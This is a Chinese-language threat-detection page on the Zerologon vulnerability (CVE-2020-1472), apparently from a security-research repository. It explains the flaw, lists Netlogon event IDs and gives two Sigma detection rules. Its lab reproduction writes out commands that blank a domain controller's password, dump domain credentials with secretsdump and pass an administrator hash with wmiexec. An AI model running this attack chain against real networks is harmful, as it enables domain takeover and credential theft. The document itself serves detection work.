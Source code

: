 # T1134-001-win-CVE-2020-1472

## 来自ATT&CK的描述

攻击者可能会复制，然后冒充另一个用户的令牌以提升特权并绕过访问控制。攻击者可以创建一个新的访问令牌，该令牌使用来复制现有令牌DuplicateToken(Ex)。然后可以将该令牌用于ImpersonateLoggedOnUser允许调用线程模拟已登录用户的安全上下文，或者SetThreadToken用于将模拟令牌分配给线程。

当攻击者具有要将新令牌分配给的特定现有过程时，他们可以执行此操作。例如，当目标用户在系统上具有非网络登录会话时，这可能很有用。

## 测试案例

2020年9月11日，安全研究员Secura发布了公告，阐明了Microsoft在2020年8月修补的漏洞细节（CVE-2020-1472）。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。本文将从“Zerologon”漏洞原理、漏洞复现、威胁狩猎三个维度对该漏洞进行分析。

具体可参考安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测日志

Windows 系统日志、全流量

此外，在8月份的补丁中，Microsoft添加了五个新的event ID，以通知易受攻击的Netlogon连接：

1、允许存在漏洞的Netlogon安全通道连接时，将生成event ID 5829

2、拒绝易受攻击的Netlogon连接时，将触发event ID 5827和5828

3、允许存在漏洞的Netlogon连接时触发的event ID 5830和5831

如果域控已经安装了补丁，还可以通过以上5个event ID进行威胁狩猎。

## 测试复现

以下模拟测试过程来自安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

实验环境：

```yml
域控：Winserver2012 R2（x64）
IP：10.10.10.10
hostname：DC
域：de1ay.com
```

![windows域控](https://p4.ssl.qhimg.com/t01d53a30398ec357a2.jpg)

```yml
攻击机：ubuntu1604（x64）
IP：10.10.10.111
```

![hacker-pc](https://p4.ssl.qhimg.com/t019275a00ca38b1d6b.jpg)

运行exp脚本，成功将AD域控的机器账户DC的密码置换成空：

```yml
python3 cve-2020-1472-exploit.py  DC 10.10.10.10
```

![hacking-1](https://p0.ssl.qhimg.com/t01f402a9c7c4c3b532.jpg)

此时域控服务器账户密码为空，同等于已知密码，可以导出域内所有用户凭据：

```yml
python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
```

![hacking-2](https://p0.ssl.qhimg.com/t01497ee0714e6f98cc.jpg)

导出hash后，发现DC的hash为31d6cfe0d16ae931b73c59d7e0c089c0，也就是空密码，同时获得了域管administrator的hash，利用administrator的hash拿下域控：

```yml
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
```

![hacking-3](https://p5.ssl.qhimg.com/t0140b167f7020733c8.jpg)

## 测试留痕

暂无，具体同样可参考安全客文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测规则/思路

### 检测规则1

```yml
title: Possible CVE-2020-1472 (zerologon)
description: CVE-2020-1472 (Netlogon Elevation of Privilege Vulnerability) may create thousands of NetrServerReqChallenge & NetrServerAuthenticate3 requests in a short amount of time.
author: SOC Prime Team
date: 2020/09/11
references:
- https://github.com/SecuraBV/CVE-2020-1472
tags:
- attack.lateral_movement
- attack.T1210
logsource:
  product: zeek
  service: dce_rpc
detection:
  selection:
    endpoint: 'netlogon'
    operation: 'NetrServerReqChallenge'
  selection2:
    endpoint: 'netlogon'
    operation: 'NetrServerAuthenticate3'
  timeframe: 1m
  condition: selection or selection2 | count() by src_ip > 100
falsepositives:
- 'unknown'
level: high
```

### 检测规则2

```yml
title: Vulnerable Netlogon Secure Channel Connection Allowed
id: a0cb7110-edf0-47a4-9177-541a4083128a
status: experimental
description: Detects that a vulnerable Netlogon secure channel connection was allowed, which could be an indicator of CVE-2020-1472.
references:
    - https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
author: NVISO
date: 2020/09/15
tags:
    - attack.privilege_escalation
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID:
            - 5829 #具备一定的局限性，需要域控主机打完补丁后，方可使用
    condition: selection
fields:
    - SAMAccountName
falsepositives:
    - Unknown
level: high
```

注意：相关规则未在真实环境中进行测试，效果未知。

## 参考推荐

MITRE-ATT&CK-T1134-001

<https://attack.mitre.org/techniques/T1134/001/>

ZeroLogon（CVE-2020-1472）分析与狩猎 

<https://www.anquanke.com/post/id/219090#h2-2>

win_vul_cve_2020_1472-sigma

<https://github.com/Neo23x0/sigma/blob/2cd9b794e677a038f3ace5b15d649ca191809846/rules/windows/builtin/win_vul_cve_2020_1472.yml>

zeek官方

<https://zeek.org/>
